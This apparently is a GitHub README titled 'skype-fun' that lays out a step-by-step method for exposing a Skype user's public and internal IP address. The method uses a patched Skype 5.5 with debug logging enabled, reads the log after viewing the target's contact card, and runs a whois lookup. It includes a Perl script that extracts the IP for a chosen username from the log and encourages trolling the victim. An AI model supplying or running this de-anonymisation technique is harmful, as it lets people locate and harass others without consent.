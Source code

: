 skype-fun
=========

Skype user IP-address disclosure

1. Downloading this patched version of Skype 5.5: 
http://skype-open-source.blogspot.com/2012/03/skype55-deobfuscated-released.html 

2. Turn on debug-log file creation via adding a few registry keys. 
https://github.com/skypeopensource/skypeopensource/wiki/skype-3.x-4.x-5.x-enable-logging 

3. Make "add a Skype contact" action, but not send add request, just click on user, to view his vcard(general info about user). This will be enough. 

4. Take look in the log of the desired skypename.
The record will be like this for real user ip: -r195.100.213.25:31101 
And like this for user internal network card ip: -l172.10.5.17 

21:16:45.818 T # 3668 PresenceManager: aїљ noticing skypetestuser1 0x3e54a539a91a19fc-s-s65.55.223.23 :40013-r195 .100.213.25:31101-l172 .10.5.17:22960 23d23109 82f328ff 

5. Catch user via whois service.
http://nic.ru/whois/?query=195.100.213.25 

This is help you to get info about skype user: City, Country, Internet provider and internal user ip-address. 

Now you can troll him about CIA and Mossad, he-he.

--- 
Perl script to automate the search in the debug log. 
---
#!perl

$LOGFILE="debug-20120420-2257.log";
$SKYPENAME="skypetestuser1";

open(RD,$LOGFILE);
open(WR,">_ip_logger.txt");
while(<RD>){ chomp;
 $line=$_;

 if( ($line=~ /PresenceManager:/) and ($line=~ /noticing/) ){
  $line=~ /-r(\d+.\d+.\d+.\d+)/;
  $ip=$1;

  print WR $line."\n";
  print WR "IP: $ip\n";

  if ($line=~ /$SKYPENAME/){
   print $line."\n";
   print "${SKYPENAME} IP: $ip\n";
  };
 };

};
close(RD);
close(WR);
---